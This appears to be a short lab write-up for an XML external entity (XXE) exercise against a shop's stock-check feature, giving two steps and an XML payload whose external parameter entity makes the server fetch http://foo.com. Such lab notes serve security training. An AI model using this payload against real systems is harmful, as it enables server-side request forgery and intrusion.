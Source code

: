 
1. Access the lab and verify the check stock feature
2. Insert the following payload at the check stock request

![](/static/img/Pasted_image_20231113181149.png)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://foo.com"> %xxe; ]>
<stockCheck><productId>4</productId><storeId>1</storeId></stockCheck>
```

![](/static/img/Pasted_image_20231113181320.png)

